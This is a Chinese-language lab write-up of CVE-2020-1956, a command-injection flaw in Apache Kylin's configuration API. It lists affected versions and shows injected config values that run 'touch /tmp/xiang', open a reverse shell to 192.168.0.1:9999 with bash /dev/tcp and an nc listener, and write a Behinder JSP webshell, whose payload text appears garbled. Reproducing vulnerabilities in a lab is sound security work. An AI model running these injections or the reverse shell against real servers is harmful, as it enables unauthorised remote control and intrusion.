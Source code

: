 # [Apache Kylin 系统远程命令执行漏洞（CVE-2020-1956）

## [一、漏洞描述](https://fofapro.github.io/vulfocus/#/writeup/CVE-2020-1956/CVE-2020-1956?id=一、漏洞描述)

Kylin中存在一些 restful API，可以将操作系统命令与用户输入的字符串连接起来，由于未对用户输入内容做合理校验，导致攻击者可以在未经验证的情况下执行任意系统命令。

## [二、影响版本](https://fofapro.github.io/vulfocus/#/writeup/CVE-2020-1956/CVE-2020-1956?id=二、影响版本)

```
Kylin 2.3.0-2.3.2 
Kylin 2.4.0-2.4.1 
Kylin 2.5.0-2.5.2 
Kylin 2.6.0-2.6.5 
Kylin 3.0.0-alpha 
Kylin 3.0.0-alpha2 
Kylin 3.0.0-beta 
Kylin 3.0.0-3.0.1
```

Apache Kylin是Apache软件基金会的一款开源的、分布式的分析型数据仓库，主要提供Hadoop/Spark之上的SQL查询接口及多维分析(OLAP)能力，以支持超大规模数据。

漏洞复现:

漏洞利用条件

```
1、需要登陆。

2、需要开启配置
```

登陆系统后进行对漏洞环境进行配置

配置前

![1](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5C1.jpg)

1.需要先登录这个网站
2.登陆后修改相应配置第一部分：利用漏洞执行touch /tmp/xiang命令
1.在界面Set Config中，把 srcCfgUri :kylin.tool.auto-migrate-cube.src-config配置为 /home/admin/apache-kylin-3.0.1-bin-hbase1x/conf/kylin.propertie，将 destCfgUri :kylin.tool.auto-migrate-cube.dest-config 配置为 /tmp/kylin.properties kylin_sales_cube learn_kylin true true true true; touch /tmp/xiang; echo ；注意其中注入了 touch /tmp/xiang 的系统命令。

![image-20211004181212179](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211004181212179.png)

选择第一行记录中的cube：kylin_sales_cube 和对应的 Project：learn_kylin 作为路径参数，在获取登陆的Cookie，如下构造POC，在burpsuite的repeater模块发送这个数据包。

![image-20211005092844764](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211005092844764.png)

.到镜像的终端下查看
通过发送数据包之前和之后的对比发现多了xiang文件，说明成功的利用漏洞执行系统命令。

1.将 kylin.tool.auto-migrate-cube.dest-config 配置为 /tmp/kylin.properties kylin_sales_cube learn_kylin true true true true; bash -i >& /dev/tcp/192.168.0.1/9999 0>&1; echo 。其中注入的命令从 touch /tmp/xiang 换成了反弹 shell 的命令 bash -i >& /dev/tcp/192.168.0.1/9999 0>&1，反弹到ip为 192.168.0.1的主机上。

本机nc lvvp 监听9999端口

**利用漏洞写入冰蝎马，获取网站的shell**
1.在界面Set Config中，把 srcCfgUri :kylin.tool.auto-migrate-cube.src-config配置为 /home/admin/apache-kylin-3.0.1-bin-hbase1x/conf/kylin.propertie，
将 destCfgUri :kylin.tool.auto-migrate-cube.dest-config 配置为 /tmp/kylin.properties kylin_sales_cube learn_kylin true true true true; echo ‘,javax.crypto.,javax.crypto.spec.*”%>’ >/home/admin/apache-kylin-3.0.1-bin-hbase1x/tomcat/webapps/kylin/shell.jsp; echo
![670a65e002188e7cf277f387e2de6cab.png](https://img-blog.csdnimg.cn/img_convert/670a65e002188e7cf277f387e2de6cab.png)

![a2953d217c739fc247e7d6725c13f9f4.png](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Ca2953d217c739fc247e7d6725c13f9f4.png)

在使用冰蝎连接



代码审计原理

https://blog.csdn.net/weixin_39968852/article/details/112624112

修复：升级到最新版本

